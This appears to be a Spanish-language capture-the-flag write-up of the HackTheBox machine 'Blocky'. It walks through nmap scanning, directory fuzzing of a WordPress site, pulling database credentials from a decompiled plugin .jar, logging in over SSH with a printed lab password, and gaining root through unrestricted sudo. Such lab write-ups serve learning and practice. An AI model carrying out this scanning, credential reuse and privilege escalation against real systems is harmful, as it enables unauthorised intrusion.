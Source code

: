 ```yaml
---
title: HackTheBox - Blocky
author: cotes
date: 2023-09-22 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress', 'Misallocated Privileges']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Blocky/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Blocky Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Wordpress, Misallocated Privileges**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Blocky/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Blocky/02-versions.png)


> Vemos un host `blocky.htb` el cual añadiremos al fichero /etc/hosts
{: .prompt-info }

c. El servicio web es un Wordpress

![](/assets/images/HTB/Easy/Blocky/03-web.png)

* Al investigar un poco la web encontramos un usuario `notch`

    ![](/assets/images/HTB/Easy/Blocky/06-user.png)


* Fuzzearemos por directorios o ficheros existentes en este servicio

    ```bash
    ❯ dirsearch -u http://blocky.htb/
     
    
    [10:07:00] 200 -  745B  - /plugins/
    [10:07:16] 301 -  311B  - /wp-admin
    [10:07:16] 301 -  314B  - /wp-includes
    <SNIP>
    ```

* Al visitar el directorio `/plugins` veremos dos archivos .jar los cuales descargaremos para inspeccionarlos

    ![](/assets/images/HTB/Easy/Blocky/04-jar.png)

d. Al abrir el fichero **Blocky-Core.jar** con `jd-gui` obtenemos credenciales para una base de datos

![](/assets/images/HTB/Easy/Blocky/05-leak.png)


* Nos conectamos por SSH con el usuario **notch** y la contraseña encontrada anteriormente

    ```bash
    ❯ ssh notch@10.10.10.37
    notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
    ```

### Escalada de Privilegios 💹

a. Listamos nuestros privilegios a nivel de sudoers

```bash
notch@Blocky:~$ sudo -l

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

* Podemos ejecutar cualquier comando como cualquier usuario 🤡

    ```bash
    notch@Blocky:~$ sudo su
    root@Blocky:/home/notch#
    ```